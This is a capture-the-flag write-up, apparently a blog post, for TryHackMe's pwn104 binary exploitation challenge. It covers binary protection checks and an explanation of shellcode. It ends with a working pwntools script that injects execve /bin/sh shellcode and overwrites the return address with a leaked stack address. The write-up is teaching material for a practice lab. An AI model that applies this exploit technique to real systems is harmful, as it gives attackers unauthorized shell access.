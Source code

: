 ```yaml
---
title: "pwn104"
date: 2024-01-10
layout: "simple"
categories: [Binary exploitation]
tags: [Tryhackme]
image: https://i.ibb.co/cgYN2Kr/th-3134630742.jpg
---
```


## 104
### Introduction

First of all we are going to do some file checks, to see the binary protections and determine the file type

```
pwn104.pwn104: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=60e0bab59b4e5412a1527ae562f5b8e58928a7cb, for GNU/Linux 3.2.0, not stripped
```

We can see that the binary is a 64 bit Least Significant Byte executable, in other words it uses little endian. The binary is dynamically linked to a LIBC and it is not stripped. 

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
we can also see the protections around it, you can refer back to pwn103 above to see what this protections mean.

So interesting enough we can see that under NX, it is unknown, this could potentialy mean that we can execute shellcode on the stack. Running the binary may confirm this 

```
I think I have some super powers 💪
especially executable powers 😎💥

Can we go for a fight? 😏💪
I'm waiting for you at 0x7ffe12e976e0
```
So what is shellcode? Shellcode is essentially machine code designed to be injected and executed as part of a larger software system. It's commonly used in exploits to achieve various goals, often to spawn a shell or grant unauthorized access to a system. Let's delve deeper into how shellcode works:
Anatomy of Shellcode:

    Assembly Instructions:
        Shellcode comprises low-level assembly instructions, usually handcrafted or generated by specialized tools like shellcraft or extracted from shellcode databases.
        These instructions are often minimal and aim to perform specific tasks such as spawning a shell (/bin/sh) or executing system commands.

    Functionality:
        The shellcode's primary function is to manipulate the program's flow or system resources to achieve a specific goal, like gaining unauthorized access or spawning a shell.
        Common shellcode tasks include modifying memory, calling system functions, or executing shell commands by taking advantage of vulnerabilities in the target program.

In an exploit scenario, shellcode is injected into a vulnerable program and usually occurs through buffer overflows or other vulnerabilities that allow arbitiary code execution. The shellcode is set to overwrite specific memory region, such as the return address or function pointers, to redirect the program flow. Once injected and executed, the shellcode's instructions start running within the context of the compromised program. The shellcode typically performs its predefined tasks, which could involve spawning a shell, granting escalated privileges, or executing specific commands.

### Exploit

So we can see that the program gives us some address so we can maybe grab that and this location could be where we can execute shellcode 

Next we are going to need shellcode, so there are two ways to get shellcode. One way being using shellcraft which is a tool which generates shellcode, the other way is using the shellcode database. 

Here i am going to get one from the database [shellstrom](http://shell-storm.org/shellcode/files/shellcode-603.html)

Smooth, next we need to fill the buffer which will allow us to execute shellcode. 

```
from pwn import *

p = process("./pwn104.pwn104")
#p = remote(thm_ip, 9004)


p.recvuntil(b'at ')
output = p.recv()
print(output)
bufferlocation = p64(int(output, 16))
shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'

payload = shellcode
payload += b'A' * (88 - len(shellcode))
payload += bufferlocation

p.sendline(payload)
p.interactive()
```
You can use also use shellcraft to create your payload.